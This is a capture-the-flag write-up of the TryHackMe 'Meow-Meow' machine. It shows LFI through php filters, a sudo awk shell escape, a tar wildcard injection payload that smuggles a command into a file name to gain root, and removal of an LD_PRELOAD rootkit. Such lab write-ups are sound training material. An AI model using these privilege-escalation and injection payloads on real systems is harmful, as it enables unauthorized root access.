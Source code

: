 ```yaml
---
title: Meow-Meow walkthrough
date: 2024-11-24 04:15:00 +0530
categories: [Writeup, TryHackMe]
tags: [lfi, privesc, tar wildcard, rootkit, user space rootkit]
image:
  path: /assets/writeup/tryhackme/meowmeow/meowmeow.png
  alt: Backtrack image
private: true
---
```

<!-- markdownlint-capture -->
<!-- markdownlint-disable -->
#### This is a medium level machine on tryhackme. In order to gain root access first we will use **LFI** to gain bat user access after that use the **awk** to gain devilx user shell then user **tar wildcard injection** to gain root and there we need to bypass the **rootkit** to gain root flag.
{: data-toc-skip=''}
<!-- markdownlint-restore -->
## **Enumeration**
### NMAP Scan

```console
Nmap scan report for 10.10.171.71
Host is up (0.17s latency).

PORT     STATE SERVICE VERSION
2200/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 8f:34:c5:d4:c0:13:9e:1b:9f:e5:87:66:88:83:b0:65 (RSA)
|   256 b2:d8:ca:85:c3:14:a9:c1:73:46:03:c5:4c:38:82:48 (ECDSA)
|_  256 1d:01:08:e4:e7:2a:29:8a:00:ee:12:2d:6f:ef:f4:c9 (ED25519)
8000/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
| http-robots.txt: 1 disallowed entry 
|_/bat.txt
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We have 2 ports open
- 2200 - SSH
- 8000 - webapp
### Port 8000
- This was a very minimal web application.
- But the nmap scan shows there is a disallowed entry `/bat.txt`
## bat user shell
### Contents of bat.txt

```console
text/gb2312
------------------------------------------------------------------------------------------------------
YmF0INPDu6e1xMPcwuvX7r38sbvW2NbDo6yyotf3zqqxuLfdtOa0otTatbHHsNPDu6fW98S/wrzW0LXEIGJhY2t1cC50eHQg1tA=
------------------------------------------------------------------------------------------------------
```

- as the hint(gb2312) suggests it is a chinese character(from wikipedia (https://en.wikipedia.org/wiki/GB_2312)) for decoding no online tool found so made this small python script

```py
import base64

# Your Base64-encoded string
base64_string = "YmF0INPDu6e1xMPcwuvX7r38sbvW2NbDo6yyotf3zqqxuLfdtOa0otTatbHHsNPDu6fW98S/wrzW0LXEIGJhY2t1cC50eHQg1tA="

# Decode the Base64 string
decoded_bytes = base64.b64decode(base64_string)

# Decode the bytes to a GB2312-encoded string
gb2312_text = decoded_bytes.decode("gb2312")

print(gb2312_text)
```

### Output

```console
bat@MSI:~$ python3 a.py
bat 用户的密码最近被重置，并作为备份存储在当前用户主目录中的 backup.txt 中
```

- After translating

```
The bat user's password was recently reset and is stored as a backup in backup.txt in the current user's home directory.
```

- This text hint us that there is lfi somewhere lets try to find it
- Using `arjun` for finding parameters.

```console
kali@kali ~ → arjun -u http://10.10.171.71:8000/            
    _
   /_| _ '
  (  |/ /(//) v2.2.6
      _/      

[*] Probing the target for stability
[*] Analysing HTTP response for anomalies
[*] Analysing HTTP response for potential parameter names
[*] Logicforcing the URL endpoint
[✓] parameter detected: view, based on: body length
[+] Parameters found: view
```

- So lets try to access /etc/passwd
![1.png](/assets/writeup/tryhackme/meowmeow/1.png)
- We got invalid request maybe there are some filters in place.
- Lets try to bypass it through `php filters` payload
![2.png](/assets/writeup/tryhackme/meowmeow/2.png)
- We got base64 encoded response let's dcode it and see whats inside

```console
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
devilx:x:1000:1000:meowmeow:/home/devilx:/bin/bash
bat:x:1001:1001::/home/bat:/bin/sh
```

- We found current user's (www-data) home directory and the place where bat's password is stored. i.e. /var/www/backup.txt
![3.png](/assets/writeup/tryhackme/meowmeow/3.png)
- Another base64 but with rot 21
![4.png](/assets/writeup/tryhackme/meowmeow/4.png)

- These are the SSH creds lets login using SSH running on port 2200.
### user flag
- In the home directory of devilx user there is user.txt which is also accessible by bat. So in other words we got user.txt

## devilx user shell
- after using `sudo -l` we can see that bat user can use awk as devilx user so lets use this

```console
$ sudo -l
Matching Defaults entries for bat on meowmeow:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User bat may run the following commands on meowmeow:
    (devilx) NOPASSWD: /usr/bin/awk
```

- payload used: `sudo -u devilx awk 'BEGIN {system("/bin/bash")}'`

## shell as root
- here if we do `sudo -l` we can see that devilx user can run `/opt/backup/backup.sh` as root

```console
devilx@meowmeow:/home/devilx$ sudo -l
Matching Defaults entries for devilx on meowmeow:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User devilx may run the following commands on meowmeow:
    (root) NOPASSWD: /opt/backup/backup.sh
```

### contents of backup.sh

```sh
#!/bin/bash
/bin/tar -cf backup.tar *
```

- After searching a little on google we can find a way to exploit this
- payload used:

```console
cd /home/devilx
echo -e '#!/bin/bash\n/bin/bash' > shell.sh
echo "" > "--checkpoint-action=exec=sh shell.sh"
echo "" > --checkpoint=1
sudo /opt/backup/backup.sh
```

![5.png](/assets/writeup/tryhackme/meowmeow/5.png)
### root flag
- although we are root we can't cat /root/root.txt
- there is an another file with name `important-notice.txt`

```
Now you have to find a rootkit which is harming our servers
```

- So due to this rootkit we are not able to cat /root/root.txt . We need to bypass this to get flag
- Let's check if it is user space rootkit using `ldd /bin/ls`

```console
root@meowmeow:/root# ldd /bin/ls
        linux-vdso.so.1 (0x00007ffd2b1b4000)
        /usr/local/lib/kit.so (0x00007f5fb120e000)
        libselinux.so.1 => /lib/x86_64-linux-gnu/libselinux.so.1 (0x00007f5fb0fe6000)
        libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f5fb0bf5000)
        libdl.so.2 => /lib/x86_64-linux-gnu/libdl.so.2 (0x00007f5fb09f1000)
        libpcre.so.3 => /lib/x86_64-linux-gnu/libpcre.so.3 (0x00007f5fb0780000)
        /lib64/ld-linux-x86-64.so.2 (0x00007f5fb1632000)
        libpthread.so.0 => /lib/x86_64-linux-gnu/libpthread.so.0 (0x00007f5fb0561000)
```

- now finally we find kit.so that looks odd and its name also suggests that it is the rootkit harming sytem (preventing us from reading /root/root.txt)
- now we will just try to remove it by moving it from /lib to another directory
- after moving it we were able to get flag

```console
root@meowmeow:/root# mv /usr/local/lib/kit.so /tmp/
root@meowmeow:/root# cat root.txt 
ERROR: ld.so: object '/usr/local/lib/kit.so' from LD_PRELOAD cannot be preloaded (cannot open shared object file): ignored.
<REDACTED>
root@meowmeow:/root#
```
